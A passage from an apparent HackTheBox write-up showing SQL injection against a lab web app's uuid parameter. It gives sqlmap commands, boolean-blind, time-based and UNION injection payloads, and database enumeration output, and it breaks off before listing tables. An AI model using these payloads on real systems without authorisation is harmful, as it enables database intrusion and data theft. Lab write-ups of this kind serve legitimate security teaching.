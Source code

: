 I can list the users too - my first guess of username failed, but name
worked:

[![](/img/image-20210517120410125.png)*Click
for full size
![image*](/img/image-20210517120410125.png)

Most of those are me, but the first one is chiv.

#### sqlmap

Alternatively, now that I have the proxy set up, I can just point
`sqlmap` at it:



    oxdf@parrot$ sqlmap -u 'http://127.0.0.1:5000/?uuid=1e05713d-9b4e-4d2c-938b-c5673866ee3e' -p uuid
    ...[snip]...                            
    ---                                                                  
    Parameter: uuid (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: uuid=129f60ea-30cf-4065-afb9-6be45ad38b73' AND 1681=1681 AND 'ZIDK'='ZIDK                                                                 

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: uuid=129f60ea-30cf-4065-afb9-6be45ad38b73' AND (SELECT 9112 FROM (SELECT(SLEEP(5)))TFNV) AND 'TgiY'='TgiY                                 

        Type: UNION query
        Title: Generic UNION query (NULL) - 1 column
        Payload: uuid=-9189' UNION ALL SELECT CONCAT(0x7178767a71,0x6d774d6a6e51764a4a746445434f76726a724f6f4f4567756b7252505379416772516c696d634955,0x717a6a7071)-- -
    ---
    [11:50:28] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0.12                                                     ...[snip]...



It shows the same injection point I found with `UNION`, as well as some
blind alternatives. From here, standard `sqlmap` enumeration. List DBs:



    0xdf@parrot[~/hackthebox/spider-10.10.10.243]$ sqlmap -u 'http://127.0.0.1:5000/?uuid=1e05713d-9b4e-4d2c-938b-c5673866ee3e' -p uuid --dbs
    ...[snip]...
    available databases [5]:
    [*] information_schema
    [*] mysql
    [*] performance_schema
    [*] shop
    [*] sys
    ...[snip]...



List the tables in `shop`:

